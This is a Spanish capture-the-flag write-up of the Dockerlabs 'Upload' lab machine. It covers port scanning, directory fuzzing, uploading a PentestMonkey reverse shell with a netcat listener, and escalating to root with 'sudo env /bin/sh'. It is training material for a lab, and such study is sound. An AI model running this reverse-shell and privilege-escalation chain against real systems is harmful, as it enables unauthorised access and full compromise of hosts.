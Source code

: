 # Upload

Plataforma: Dockerlabs
OS: Linux
Level: Very Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 4 de diciembre de 2024 21:01
IP: 172.17.0.2

## Recopilación de información

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p-  --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
```

Open port: 80

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

- **Identificación de vulnerabilidades**
    - 80 / HTTP
    
    Whatweb :
    
    ![image.png](<imagenes/image.png>)
    
    Fuzzing : 
    
    ```bash
    gobuster dir -u 172.17.0.2 -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt -x txt,php
    
    ```
    
    ![image.png](<imagenes/image 1.png>)
    

![image.png](<imagenes/image 2.png>)

## Explotación

### Explotación 1

Upload reverse shell PentestMonkey via web

```bash
sudo nc -lvnp 443
```

![image.png](<imagenes/image 3.png>)

### Escalada de privilegios

Buscamos binarios SUID:

```bash
sudo -l
```

![image.png](<imagenes/image 4.png>)

Buscamos en GTFOBins como explotar el binario “env”

```bash
sudo env /bin/sh
```

![image.png](<imagenes/image 5.png>)

## Conclusión

Enumeración básica de la maquina, con un servicio vulnerable. Explotación via File Upload.

Escalada de privilegios senzilla exploando binario ENV